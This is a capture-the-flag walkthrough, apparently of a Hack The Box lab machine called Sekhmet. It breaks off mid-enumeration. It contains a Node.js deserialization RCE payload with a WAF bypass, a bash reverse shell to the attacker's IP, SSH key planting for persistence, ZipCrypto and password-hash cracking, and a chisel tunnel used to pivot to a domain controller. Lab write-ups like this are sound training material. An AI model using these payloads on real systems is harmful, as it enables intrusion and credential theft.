

# Sekhmet

```bash
TARGET=10.10.11.179
```

```bash
$ sudo nmap -v -sC -sV $TARGET    
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8c:71:55:df:97:27:5e:d5:37:5a:8d:e2:92:3b:f3:6e (RSA)
|   256 b2:32:f5:88:9b:fb:58:fa:35:b0:71:0c:9a:bd:3c:ef (ECDSA)
|_  256 eb:73:c0:93:6e:40:c8:f6:b0:a8:28:93:7d:18:47:4c (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 20.96 seconds
           Raw packets sent: 2006 (88.240KB) | Rcvd: 7 (292B)
```

```bash
$ curl $TARGET                                                               
<html>
<head>
<script>

window.location.replace("http://www.windcorp.htb");
</script>
</head>
<body>
<h2>Nothing to see here, move along.</h2>
</body>
</html>
```

```bash
$ cat /etc/hosts | grep $TARGET                                     
10.10.11.179    www.windcorp.htb
```

Lets try to fuzz the `Host` on the request header with `ffuf` and see if we have other subdomains responding on the server.

```bash
$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$TARGET/ -H "Host: FUZZ.windcorp.htb" -mc all -fs 153

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.179/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.windcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 153
________________________________________________

portal                  [Status: 403, Size: 2436, Words: 234, Lines: 44, Duration: 92ms]
:: Progress: [4989/4989] :: Job [1/1] :: 356 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

It seems that `portal.windcorp.htb` also respons on the target.

```bash
$ cat /etc/hosts | grep $TARGET        
10.10.11.179    www.windcorp.htb portal.windcorp.htb
```

```bash
$ curl portal.windcorp.htb             
<!DOCTYPE html><html><head><title>Login Here</title><link rel="stylesheet" href="/css/bootstrap.min.css"><link rel="stylesheet" href="/stylesheets/style.css"></head><body style="background-image: url(images/thisisthepath.jpg);"><div class="wrapper"><div class="form-signin"><h1>Login Here</h1><form action="/login" method="post"><div class="form-group"><label for="username">Username</label><input class="form-control" type="text" name="username" placeholder="Username" autofocus></div><div class="form-group">   <label for="password">Password</label><input class="form-control" type="password" name="password" placeholder="Password"></div><div class="form-group"> <div><a href="/about">About</a></div><div class="text-right"><label class="form-check-label">Remember me <input type="checkbox"></label></div></div><div class="form-group"><div class="text-right"><input class="btn btn-primary" type="submit" value="Sign in"></div></div></form></div></div><div id="footer"><p style="font-size: 8px;color: #FFFFFF;text-align:center;">(C) WindCorp</p></div></body></html>
```

I believe we have a login page here.


After some basic password testing we get in with `admin:admin`.


The page shows only a **Under construction** message. But it also shows some kind of calculation to know for how long I have been logged in.

Inspecting it on Burp we see that we got a cookie with some JSON. It also seems to be using the [Express Node.js Framework](https://expressjs.com/).

```bash
{"username":"admin","admin":"1","logon":1724641582084}
```

[HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs) has some cool tricks on deserialization that we can try here.

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

If we try it on `Burp - Repeater` it return to us a `Actions blocked` page.



It seems that a version of [ModSecure](https://github.com/owasp-modsecurity/ModSecurity/wiki) is blocking us. Checking on [coreruleset](https://github.com/coreruleset/coreruleset/blob/main/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf#L52) we see the current version of the filter. But we don't know if this is the one in place on the target.

After playing a bit with Unicode escape sequence, we can try to replace a few char to hex and try to bypass the filter.

| Char | Hex | Unicode escape |
| -- | -- | -- |
| F | 46 | `\u0046` |
| f | 66 | `\u0066` |


```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```


Testing RCE with a connection back to our Kali we see that it works.

```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec(\"bash -c 'echo > /dev/tcp/10.10.14.8/9001'\", function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.179] 57076
```

## webserver - webster shell

Adjusting the payload to get a reverse shell returns as success.

```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'\", function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.179] 57072
bash: cannot set terminal process group (522): Inappropriate ioctl for device
bash: no job control in this shell
webster@webserver:/$ id
id
uid=1000(webster) gid=1000(webster) groups=1000(webster)
```

```bash
webster@webserver:/$ uname -a
uname -a
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64 GNU/Linux
```

```bash
webster@webserver:/$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
```

```bash
webster@webserver:/$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
webster:x:1000:1000:webster,,,:/home/webster:/bin/bash
```

The IP on this host is not the one we see from outside. We may be in a VM or a container here.

```bash
webster@webserver:/$ ip a | grep 'inet '
ip a | grep 'inet '
    inet 127.0.0.1/8 scope host lo
    inet 192.168.0.100/24 brd 192.168.0.255 scope global eth0
```

But We see that `ssh` is listening here.

```bash
ss -l -4 | grep :ssh
tcp   LISTEN 0      128          0.0.0.0:ssh       0.0.0.0:*
```

We can try to add our ssh key here on the authorized file and see if we can reach it.

```bash
webster@webserver:~$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
<m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
```

```bash
$ ssh -i ~/.ssh/kali-rsa webster@$TARGET           
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64
...
Last login: Mon Aug 26 09:14:28 2024 from hope.windcorp.htb
webster@webserver:~$ 
```

From the login msg it seems that there is another host somewhere here

> Last login: Mon Aug 26 09:14:28 2024 from `hope.windcorp.htb`

```bash
webster@webserver:~$ dig hope.windcorp.htb +short
192.168.0.2
10.10.11.179
```

- 192.168.0.2 - hope
- 192.168.0.100 - webserver

We see that [sssd](https://sssd.io/) is running on the host. This is normally used to connect Linux to Windows Active Direcotry.

```bash
webster@webserver:~$ ps auxww | grep sss
root         333  0.0  2.5  97200 23816 ?        Ss   04:48   0:00 /usr/sbin/sssd -i --logger=files
root         424  0.0  2.8 116792 26616 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_be --domain windcorp.htb --uid 0 --gid 0 --logger=files
root         425  0.0  5.3 111912 50340 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_nss --uid 0 --gid 0 --logger=files
root         426  0.0  2.4  85160 22648 ?        S    04:48   0:00 /usr/libexec/sssd/sssd_pam --uid 0 --gid 0 --logger=files
```

An interesting file is `/etc/krb5.conf`.

```bash
webster@webserver:~$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = WINDCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

...

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        WINDCORP.HTB = {
                kdc = hope.windcorp.htb
                admin_server = hope.windcorp.com
                default_domain = windcorp.htb
        }

[domain_realm]
        .windcorp.htb = WINDCORP.HTB
        windcorp.com = WINDCORP.HTB

[appdefaults]
        forwardable = true
                pam = {
                        WINDCORP.HTB = {
                                ignore_k5login = false
                                }
                }
```

This tells us that the host we saw earlier `hope.windcorp.htb` is a domain control.

### backup encrypted file

```bash
webster@webserver:~$ ls ~/
backup.zip
```

```bash
$ scp -i ~/.ssh/kali-rsa webster@$TARGET:~/backup.zip .
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
backup.zip                                                                                           100%   71KB 102.6KB/s   00:00
```

Trying to unzip it requests a password we don't have.

```bash
$ 7z x backup.zip 
...
Scanning the drive for archives:
1 file, 72984 bytes (72 KiB)

Extracting archive: backup.zip
--
Path = backup.zip
Type = zip
Physical Size = 72984
 
Enter password (will not be echoed):
```

We can get details from the files inside the zip.

```bash
$ 7z l -slt backup.zip

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:524288

Scanning the drive for archives:
1 file, 72984 bytes (72 KiB)

Listing archive: backup.zip

--
Path = backup.zip
Type = zip
Physical Size = 72984

----------
Path = etc/passwd
Folder = -
Size = 1509
Packed Size = 554
Modified = 2022-04-30 08:27:46
Created = 
Accessed = 
Attributes =  -rw-r--r--
Encrypted = +
Comment = 
CRC = D00EEE74
Method = ZipCrypto Deflate
Characteristics = UT:MA:1 ux : Encrypt Descriptor
Host OS = Unix
Version = 20
Volume Index = 0
Offset = 0

...
```

The method to encrypt the zip is `ZipCrypto`. There’s a known plaintext attack on ZipCrypto.

```bash
$ wget https://github.com/kimci86/bkcrack/releases/download/v1.7.0/bkcrack-1.7.0-Linux.tar.gz
...
Saving to: ‘bkcrack-1.7.0-Linux.tar.gz’

bkcrack-1.7.0-Linux.tar.gz        100%[============================================================>] 154.66K  --.-KB/s    in 0.06s   

2024-08-26 00:43:20 (2.68 MB/s) - ‘bkcrack-1.7.0-Linux.tar.gz’ saved [158375/158375]
```

```bash
$ tar tar -xvf bkcrack-1.7.0-Linux.tar.gz 
bkcrack-1.7.0-Linux/tools/
bkcrack-1.7.0-Linux/tools/deflate.py
bkcrack-1.7.0-Linux/tools/inflate.py
bkcrack-1.7.0-Linux/readme.md
bkcrack-1.7.0-Linux/license.txt
bkcrack-1.7.0-Linux/example/
bkcrack-1.7.0-Linux/example/tutorial.md
bkcrack-1.7.0-Linux/example/secrets.zip
bkcrack-1.7.0-Linux/bkcrack
```

Let's get a file that is present on the zip from the host, to allow `bkcrack` to use it as reference as a not encrypted source.

```bash
webster@webserver:~$ zip plain.zip /etc/passwd
  adding: etc/passwd (deflated 64%)
```

```bash
$ scp -i ~/.ssh/kali-rsa webster@$TARGET:~/plain.zip .                                  
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
plain.zip                                                                                            100%  712     3.8KB/s   00:00
```

```bash
$ 7z l -slt plain.zip                                                                        

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:524288

Scanning the drive for archives:
1 file, 712 bytes (1 KiB)

Listing archive: plain.zip

--
Path = plain.zip
Type = zip
Physical Size = 712

----------
Path = etc/passwd
Folder = -
Size = 1509
Packed Size = 542
Modified = 2022-04-30 08:27:46
Created = 
Accessed = 
Attributes =  -rw-r--r--
Encrypted = -
Comment = 
CRC = D00EEE74
Method = Deflate
Characteristics = UT:MA:1 ux
Host OS = Unix
Version = 20
Volume Index = 0
Offset = 0
```

In both zip files (encrypted and not encrypted) the `/etc/passwd` file had the same `CRC` value - `D00EEE74`

Now lets run `bkcrack` with the following parameters:

- `-C backup.zip` - the encrypted zip
- `-c etc/passwd` - the name of the known file in the encrypted zip
- `-P plain.zip` - the plaintext zip
- `-p etc/passwd` - the name of the known file in the plain zip.

```bash
$ /opt/bkcrack-1.7.0-Linux/bkcrack -C backup.zip -c etc/passwd -P plain.zip -p etc/passwd
bkcrack 1.7.0 - 2024-05-26
[00:57:39] Z reduction using 535 bytes of known plaintext
100.0 % (535 / 535)
[00:57:40] Attack on 14541 Z values at index 9
Keys: d6829d8d 8514ff97 afc3f825
91.2 % (13256 / 14541)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 13256
[00:58:04] Keys
d6829d8d 8514ff97 afc3f825
```

It found a solution and provided a key to decrypt the zip file.

Now lets use bkcrack to create a new zip file without the password.

```bash
$ /opt/bkcrack-1.7.0-Linux/bkcrack -C backup.zip -k d6829d8d 8514ff97 afc3f825 -D decrypted.zip
bkcrack 1.7.0 - 2024-05-26
[01:01:04] Writing decrypted archive decrypted.zip
100.0 % (21 / 21)
```

And lets unzip the decrypted zip on an `bkp/` directory.

```bash
$ 7z x decrypted.zip -o./bkp

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:524288

Scanning the drive for archives:
1 file, 72732 bytes (72 KiB)

Extracting archive: decrypted.zip
--
Path = decrypted.zip
Type = zip
Physical Size = 72732

Everything is Ok

Folders: 19
Files: 21
Size:       38385303
Compressed: 72732
```

### Ray Duncan password

After checking the content of the zip we find a `.ldp` file with what looks like a hash for user `Ray.Duncan`.

```bash
$ tdbdump bkp/var/lib/sss/db/cache_windcorp.htb.ldb 
{
key(21) = "DN=@INDEX:CN:CERTMAP\00"
data(81) = "g\19\01&\02\00\00\00@INDEX:CN:CERTMAP\00@IDXVERSION\00\01\00\00\00\01\00\00\002\00@IDX\00\01\00\00\00\13\00\00\00cn=certmap,cn=sysdb\00"
}
{
key(28) = "DN=@INDEX:NAME:windcorp.htb\00"
data(160) = "g\19\01&\02\00\00\00@INDEX:NAME:windcorp.htb\00@IDXVERSION\00\01\00\00\00\01\00\00\002\00@IDX\00\01\00\00\00[\00\00\00objectSID=S-1-5-21-1844305427-4058123335-2739572863,cn=id_mappings,cn=windcorp.htb,cn=sysdb\00"
}
...
{
key(66) = "DN=NAME=Ray.Duncan@windcorp.htb,CN=USERS,CN=WINDCORP.HTB,CN=SYSDB\00"
data(2448) = "...FILE:/tmp/krb5cc_1069003229_bA74OK\00cachedPassword\00\01\00\00\00j\00\00\00$6$nHb338EAa7BAeuR0$MFQjz2.B688LXEDsx035.Nj.CIDbe/u98V3mLrMhDHiAsh89BX9ByXoGzcXnPXQQF/hAj5ajIsm0zB.wg2zX81\00cachedPasswordType..."
}
...
```


```bash
$ cat ray_duncan.hash                                               
$6$nHb338EAa7BAeuR0$MFQjz2.B688LXEDsx035.Nj.CIDbe/u98V3mLrMhDHiAsh89BX9ByXoGzcXnPXQQF/hAj5ajIsm0zB.wg2zX81
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ray_duncan.hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pantera          (?)     
1g 0:00:00:00 DONE (2024-08-26 01:21) 4.761g/s 9752p/s 9752c/s 9752C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
webster@webserver:~$ klist
klist: No credentials cache found (filename: /tmp/.cache/krb5cc.8557)
```

```bash
webster@webserver:~$ kinit ray.duncan
Password for ray.duncan@WINDCORP.HTB: pantera
```

```bash
webster@webserver:~$ klist
Ticket cache: FILE:/tmp/.cache/krb5cc.8557
Default principal: ray.duncan@WINDCORP.HTB

Valid starting       Expires              Service principal
08/26/2024 10:22:57  08/26/2024 15:22:57  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 08/27/2024 10:22:54
```

`ksu` is a program that will try to get root privileges using Kerberos / AD as the arbitrator. I can run it to see if Ray.Duncan can escalate

```bash
webster@webserver:~$ ksu
Authenticated ray.duncan@WINDCORP.HTB
Account root: authorization for ray.duncan@WINDCORP.HTB successful
Changing uid to root (0)
root@webserver:/home/webster# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@webserver:/home/webster# cat /root/user.txt 
4a1f52...
```

I will again add my ssh key on the authorized_keys file, but this time at root user.

```bash
root@webserver:/home/webster# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
```

```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64
...
Last login: Mon Aug 22 12:58:02 2022
root@webserver:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Lets transfer a static nmap to the host and see if we can enumerate the DC now.

```bash
$ scp -i ~/.ssh/kali-rsa nmap-static root@$TARGET:~/ 
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
nmap-static                                                                             100% 5805KB   1.2MB/s   00:04
```

```bash
root@webserver:~# chmod +x nmap-static

root@webserver:~# ./nmap-static -p- --min-rate 10000 192.168.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-08-26 10:33 CEST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for hope.windcorp.htb (192.168.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.00091s latency).
Not shown: 65519 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd
636/tcp   open  ldaps
3268/tcp  open  unknown
3269/tcp  open  unknown
5985/tcp  open  unknown
9389/tcp  open  unknown
49664/tcp open  unknown
56953/tcp open  unknown
57161/tcp open  unknown
60499/tcp open  unknown
MAC Address: 00:15:5D:10:93:01 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 20.05 seconds
```

```bash
$ scp -i ~/.ssh/kali-rsa /opt/chisel/v1.9.1/chisel root@$TARGET:~/
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
chisel                                                                                  100% 8452KB 870.8KB/s   00:09    

```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse 
2024/08/26 01:45:05 server: Reverse tunnelling enabled
2024/08/26 01:45:05 server: Fingerprint UQnp22WDmFc2sTt4WHvyHHiJYYUYZF+Z9CGKB6NNVHA=
2024/08/26 01:45:05 server: Listening on http://0.0.0.0:8000
```

```bash
root@webserver:~# chmod +x chisel 
root@webserver:~# ./chisel client 10.10.14.8:8000 R:socks
2024/08/26 10:46:29 client: Connecting to ws://10.10.14.8:8000
2024/08/26 10:46:30 client: Connected (Latency 91.151ms)
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse
...
2024/08/26 01:47:15 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

```bash
$ cat /etc/proxychains4.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5         127.0.0.1 1080
#socks5         127.0.0.1 1081
#http           127.0.0.1 8080
```

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera
```

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera' --shares 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera 
SMB         hope.windcorp.htb 445    hope             [*] Enumerated shares
SMB         hope.windcorp.htb 445    hope             Share           Permissions     Remark
SMB         hope.windcorp.htb 445    hope             -----           -----------     ------
SMB         hope.windcorp.htb 445    hope             ADMIN$                          Remote Admin
SMB         hope.windcorp.htb 445    hope             C$                              Default share
SMB         hope.windcorp.htb 445    hope             IPC$            READ            Remote IPC
SMB         hope.windcorp.htb 445    hope             NETLOGON        READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             SYSVOL          READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             WC-Share        READ
```

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera' -M spider_plus -o DOWNLOAD_FLAG=True
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera 
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Started module spidering_plus with the following options:
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]     STATS_FLAG: True
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         hope.windcorp.htb 445    hope             [*] Enumerated shares
SMB         hope.windcorp.htb 445    hope             Share           Permissions     Remark
SMB         hope.windcorp.htb 445    hope             -----           -----------     ------
SMB         hope.windcorp.htb 445    hope             ADMIN$                          Remote Admin
SMB         hope.windcorp.htb 445    hope             C$                              Default share
SMB         hope.windcorp.htb 445    hope             IPC$            READ            Remote IPC
SMB         hope.windcorp.htb 445    hope             NETLOGON        READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             SYSVOL          READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             WC-Share        READ            
SPIDER_PLUS hope.windcorp.htb 445    hope             [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/hope.windcorp.htb.json".
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, SYSVOL, WC-Share)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Readable Shares:  4 (IPC$, NETLOGON, SYSVOL, WC-Share)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Filtered Shares:  1
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Total folders found:  87
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Total files found:    28
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Files filtered:       1
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size average:    11.31 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size min:        22 B
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size max:        111.7 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File unique exts:     9 (.ps1, .lnk, .xml, .cmtx, .txt, .png, .inf, .ini, .pol)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Downloads successful: 27
SPIDER_PLUS hope.windcorp.htb 445    hope             [+] All files processed successfully.
```

```bash
$ ls -lha /tmp/nxc_hosted/nxc_spider_plus/hope.windcorp.htb/        
total 0
drwxr-xr-x 5 kali kali 100 Aug 26 02:18 .
drwxr-xr-x 3 kali kali  80 Aug 26 02:17 ..
drwxr-xr-x 2 kali kali 100 Aug 26 02:17 NETLOGON
drwxr-xr-x 3 kali kali  60 Aug 26 02:17 SYSVOL
drwxr-xr-x 3 kali kali  60 Aug 26 02:18 WC-Share
```

There are 3 interesting files here:

- /NETLOGON/form.ps1
- /NETLOGON/Update phone.lnk
- /WC-Share/temp/debug-users.txt

The `/NETLOGON/form.ps1` seems to be a powershell script that generates a GUI and allow user to update their mobile phone number on Active Directory via `adsi`.

```powershell
#Create Objects
$SysInfo = New-Object -ComObject "ADSystemInfo"
$UserDN = $SysInfo.GetType().InvokeMember("UserName","GetProperty", $Null, $SysInfo, $Null)
$User = [adsi]"LDAP://$($UserDN)"

#Create form
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$form = New-Object System.Windows.Forms.Form
$form.Text = 'SMS password reset setup'
$form.Size = New-Object System.Drawing.Size(300,200)
$form.StartPosition = 'CenterScreen'

$okButton = New-Object System.Windows.Forms.Button
$okButton.Location = New-Object System.Drawing.Point(75,120)
$okButton.Size = New-Object System.Drawing.Size(75,23)
$okButton.Text = 'OK'
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)

$cancelButton = New-Object System.Windows.Forms.Button
$cancelButton.Location = New-Object System.Drawing.Point(150,120)
$cancelButton.Size = New-Object System.Drawing.Size(75,23)
$cancelButton.Text = 'Cancel'
$cancelButton.DialogResult = [System.Windows.Forms.DialogResult]::Cancel
$form.CancelButton = $cancelButton
$form.Controls.Add($cancelButton)

$label = New-Object System.Windows.Forms.Label
$label.Location = New-Object System.Drawing.Point(10,20)
$label.Size = New-Object System.Drawing.Size(280,20)
$label.Text = 'To be able to reset password using SMS,'
$form.Controls.Add($label)

$label = New-Object System.Windows.Forms.Label
$label.Location = New-Object System.Drawing.Point(10,40)
$label.Size = New-Object System.Drawing.Size(280,20)
$label.Text = ' you need to keep it updated:'
$form.Controls.Add($label)

$textBox = New-Object System.Windows.Forms.TextBox
$textBox.Location = New-Object System.Drawing.Point(10,60)
$textBox.Size = New-Object System.Drawing.Size(260,20)
$form.Controls.Add($textBox)
$textBox.Text = $User.Get("mobile")

$form.Topmost = $true

$form.Add_Shown({$textBox.Select()})
$result = $form.ShowDialog()

if ($result -eq [System.Windows.Forms.DialogResult]::OK)
{
    $x = $textBox.Text
    $User.Put("mobile",$x)
    $User.SetInfo()
}
```

The `/NETLOGON/Update phone.lnk` seems to be a shurtcut to execute powershell on bypass mode and invoke the `form.ps1` script.

```bash
$ strings -e l /tmp/nxc_hosted/nxc_spider_plus/hope.windcorp.htb/NETLOGON/Update\ phone.lnk
Windows
System32
WindowsPowerShell
v1.0
powershell.exe
?..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe*C:\WINDOWS\System32\WindowsPowerShell\v1.05-w hidden -ep bypass \\windcorp.htb\netlogon\form.ps1
C:\Windows\System32\shell32.dll
%SystemRoot%\System32\shell32.dll
v1.0 (C:\Windows\System32\WindowsPowerShell)
S-1-5-21-1844305427-4058123335-2739572863-500
powershell.exe
Application
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

The `/WC-Share/temp/debug-users.txt` seems to be an output of another code that get user name and a random number into it.

```bash
